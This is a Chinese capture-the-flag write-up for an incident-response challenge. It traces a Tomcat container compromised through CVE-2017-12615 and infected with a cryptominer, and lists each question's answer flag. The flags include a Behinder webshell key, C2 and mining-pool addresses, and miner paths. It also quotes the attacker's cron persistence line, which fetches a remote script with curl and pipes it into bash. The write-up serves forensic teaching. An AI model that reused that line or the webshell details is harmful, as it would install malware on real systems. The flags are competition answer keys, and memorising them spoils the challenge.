




# 2026启航杯-应急溯源题目

> 注意：本题为真实恶意样本，只在 `--network none` 隔离容器内分析，不要在宿主机直接执行。

# 一.准备

## 1.导入tar文件

### 方法一：通过管道符导入（推荐，最直观）

　　这是最标准的操作，直接将文件内容通过管道传输给 Docker：

　　Bash

```
 cat yingji-v1.tar | docker load
```

### 方法二：使用 Docker 的输入重定向

　　如果你所在的终端环境支持，直接使用 Docker 的参数输入更简洁：

　　Bash

```
 docker load -i yingji-v1.tar
```

- ​`-i`​ 表示 `--input`，直接指定输入文件，效果与方法一完全相同。

## 2.进入shell

```
 # 启动一个临时容器，切断网络，并进入 shell
 docker run --rm -it --network none yingji:v1 /bin/bash
```

|**参数**|**全称**|**作用**|
| ------| ----------| -----------------------------------------------------------------------------------------------|
|​`docker run`|-|**核心命令**：创建一个新容器并启动它。|
|​`--rm`|--remove|**自动删除**：容器退出（停止）后立即删除其文件系统，不留垃圾。|
|​`-it`|-i + -t|**交互终端**：`-i`​(interactive) 保持标准输入打开；`-t`(tty) 分配一个虚拟终端。让你能像操作 SSH 一样操作容器。|
|​`--network none`|-|**网络隔离**：关闭容器的所有网络功能，容器内只有`lo`（本地回环），无法访问外网或局域网。|
|​`yingji:v1`|-|**镜像名称**：使用名为`yingji`​标签为`v1`的本地镜像。|
|​`/bin/bash`|-|**执行命令**：进入容器后立即运行 Bash Shell，让你开始输入指令。|

# 二.

　　某公司运维人员发现其Docker容器中运行的Tomcat服务器CPU占用率异常飙升，怀疑服务器被入侵并植入了挖矿程序。现需要你作为安全应急响应人员，对该服务器进行全面的安全分析和溯源。**注意：请勿删除任何感染样本，仅进行溯源分析！这是真实程序！！** 命令：cat yingji-v1.tar | docker load

## 应急溯源1

　　Q1：攻击者利用了什么漏洞入侵了Tomcat服务器？请给出漏洞编号。提交方式：QHCTF{CVE-XXXX-XXXXX}

### 方法一（无提交次数限制）：

　　直接问ai有什么常见的漏洞，一个个试

### 方法二（查看配置文件）：

　　检查Tomcat配置文件 /usr/local/tomcat/conf/web.xml，发现 readonly 参数被设置为 false，这是CVE-2017-12615  PUT文件上传漏洞的典型配置

```
 cat conf/web.xml | grep "readonly" -A 5
```



```
 QHCTF{CVE-2017-12615}
```

## 应急溯源2

　　Q2:其中一个Webshell是冰蝎(Behinder)马，请找出其连接密钥和密码。提交方式：QHCTF{密钥\_密码}

### 常见的冰蝎 Webshell 后缀

> 冰蝎默认生成的服务端脚本通常包含以下几种后缀：
>
> - **PHP 环境**：`.php`
> - **Java 环境**：`.jsp`​、`.jspx`
> - **ASP.NET 环境**：`.aspx`​、`.ashx`
> - **ASP 环境**：`.asp`

　　定位方法：在 webapps 下查找可疑 JSP/JSPX 文件，查看文件内容中的连接密码参数（通常为 `pass`）和加解密 key，再按 `密钥_密码` 格式提交。

```
find /usr/local/tomcat/webapps -name "*.jsp" -o -name "*.jspx" | xargs grep -l "eval\|Base64\|@session"
```

```
 QHCTF{3c6e0b8a9c15224a_pass}
```

## 

## 应急溯源3

　　Q3:攻击者使用反向Shell连接到了哪个C2服务器？请给出IP和端口。提交方式：{IP:端口}

```
 在网络安全和渗透测试中，C2 服务器（Command and Control Server，简称 C&C）是攻击者用来远程控制受害者计算机（即“肉鸡”或“僵尸主机”）的中控指挥部。
 ​
 简单来说，如果恶意软件是埋伏在目标内部的“间谍”，那么 C2 服务器就是那个通过无线电发送指令的“上线”。
```

### 方法一（grep搜索关键字）（IP，/dev/tcp，/bin/bash，/bin/sh，端口8888/6666/4444/1234）：

```
 grep -rE -A 3 "[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+" /root /tmp webapps/ 2>/dev/null
```



### 方法二（检查历史文件）：

　　首先先检查bash的历史

```
cat /root/.bash_history
```

　　发现历史只有下载恶意样本的记录，没有我们想要的反弹shell的记录，回头把目光放回web相关的文件中

```
grep -r "/dev/tcp" webapps/
```

　　发现host和port是作为参数传入进行反弹shell的，因此我们检查日志中的连接情况

```
grep -e "rce.jsp" -e "shell.jsp" localhost_access_log.*.txt
```

```
cat webapps/ROOT/shell.jsp
```

```
QHCTF{193.239.86.139:8888}
```

## 应急溯源4

　　Q4:攻击者在服务器上植入了挖矿程序，请找出挖矿程序的完整路径（有多个请用逗号分隔）提交方式：QHCTF{路径1,路径2}

### 方法一（无效）：

　　搜索包含矿池特征的文件\*\* 挖矿程序（如常用的 XMRig）通常会包含 `stratum`（矿池协议）字符串。我们可以根据这个特征定位二进制文件：

　　原因：全盘搜索耗时长，且样本可能对特征字符串做了混淆，实际未能直接命中，最终改为从启动项和可疑目录定位。

```
grep -r "stratum" / 2>/dev/null
```

### 方法二：

　　重点先检查/etc/systemd/system，/tmp，/opt这几个目录



```
QHCTF{/opt/.X11-Xtrace/kworker,/opt/.kthread/kthread}
```

## 应急溯源5

　　Q5:攻击者通过什么方式实现挖矿程序的持久化？请给出持久化配置的完整内容。提交方式：QHCTF{持久化命令}

```
crontab -l 
```

　　持久化通常不止 cron 一处：`/etc/systemd/system/` 下还有 systemd 服务（如 `kthread.service`），通过 `systemctl enable` 实现开机自启；记录时可把 cron 配置和 systemd 服务内容一起核对，以实际提交要求为准。

```
QHCTF{@reboot curl https://www.atteppzkf.com:8443/d/opi1G30i/exec.sh | bash}
```

## 应急溯源6

　　Q6:挖矿程序连接的矿池地址是什么？提交方式：QHCTF{IP:端口}

```
docker ps -q
# 容器 ID 以 docker ps 实际结果为准，不要照抄下面的示例
docker cp 4e03bbff88b6:/opt/.X11-Xtrace/kworker ./
```

　　把文件上传到微步云沙箱检测



```
QHCTF{159.198.35.43:8081}
```

## 应急溯源7

　　Q7:矿池服务器的域名是什么？提交方式：QHCTF{域名}

### 域名查找方法

> #### 1. 使用 `nslookup`​ 或 `host` 命令 (最直接)
>
> 这是利用 DNS 的反向查询记录（PTR 记录）。如果管理员配置了反向解析，你可以直接看到域名。
>
> 在 Kali 终端输入：
>
> ```
> # 方式一
> nslookup 159.198.35.43
>
> # 方式二
> host 159.198.35.43
> ```
>
> #### 2.利用内网扫描工具 (`nbtscan`)
>
> 如果是 Windows 局域网环境，可以使用 NetBIOS 协议来探测主机名。
>
> ```
> nbtscan 159.198.35.43
> ```

　　注意：公网 IP 不一定配置了 PTR 反向解析，查不到时可直接分析 `kworker` 样本中的矿池连接信息，或借助沙箱报告。

```
QHCTF{nc-ph-0601-10.web-hosting.com}
```

## 应急溯源8

　　Q8：攻击者用于下载恶意脚本的域名是什么？提交方式：QHCTF{域名}

　　可从持久化配置中的下载命令、恶意脚本记录或 shell 历史中定位：

```
grep -rE "atteppzkf|exec\.sh" /root /tmp /etc/systemd 2>/dev/null
```

```
QHCTF{https://www.atteppzkf.com}
```

　　‍
